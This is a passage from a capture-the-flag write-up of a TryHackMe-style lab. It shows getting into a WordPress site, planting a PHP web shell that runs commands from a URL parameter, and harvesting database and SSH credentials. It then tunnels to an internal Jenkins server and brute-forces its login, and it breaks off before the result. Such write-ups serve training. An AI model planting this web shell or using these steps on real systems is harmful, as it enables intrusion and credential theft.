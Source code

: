 ## Exploitation

Now we are login so we can edit the php file from the following link like `index.php` with our reverse shell code and by visiting this will give us reverse shell or code execution.
`http://internal.thm/blog/wp-admin/theme-editor.php?file=index.php&theme=twentyseventeen`

By editing and adding `index.php` with the following code I can now run system commands
```
<?php
    if(isset($_GET['cmd']))
    {
        system($_GET['cmd']);
    }
?>
```
You can get reverse shell directly but I like this way.

After getting the reverse shell I see `wp-config.php` that file contains MySQL Database credentials and found the following credentials.
```
DB_User: wordpress
DB_Password: wordpress123
```
Using that we can login with MySQL database locally and as there is `phpmyadmin` directory that are GUI version of intracting MySQL database so we can check him also for getting some usefull things.

## POST Exploitation

There are only one user `aubreanna`. And I try every credential I found yet to login with that but no one works. And there is no `SUID` and `Capiblities` binaries there we can use for priv-esc. 

But when i use `ls` command on `/opt` endpoint there is a file name `wp-save.txt` that have some juicy things.
```
Bill,

Aubreanna needed these credentials for something later.  Let her know you have them and where they are.

aubreanna:bubb13guM!@#123
```
And Its a valid credentials so get connected with `ssh`
In the user home directory there's a file name `jenkins.txt` that have the following content.
```
Internal Jenkins service is running on 172.17.0.2:8080
```
They mentioned there is a `jenkins` server running locally on port `8080` and we can confirm that using `ss -tupln` command. Now we have to do a port forward to access that port and we can do that using ssh port tunneling with following syntax.
```shell
ssh -L local_port:local_address:remote_port username@remote_address
```
So our command looks like this.
```shell
ssh -L 8080:localhost:8080 aubreanna@internal.thm
```
After using the above command they tunel local `jenkins` server port to our local 8080 port so now we can access jenkins server. I try default `admin:admin` credentials but it doesn't work so I try bruteforce attack. The bruteforce may take too much time and we can only guess the credentials by its response size so we have to fillter our result with response size. I try using hydra http-form bruteforce method or some other method they didn't able to guess the password so we have to use `burp intruder` or `zap proxy` or any other method that can fillter with response size. after that we can get the following valid credentials
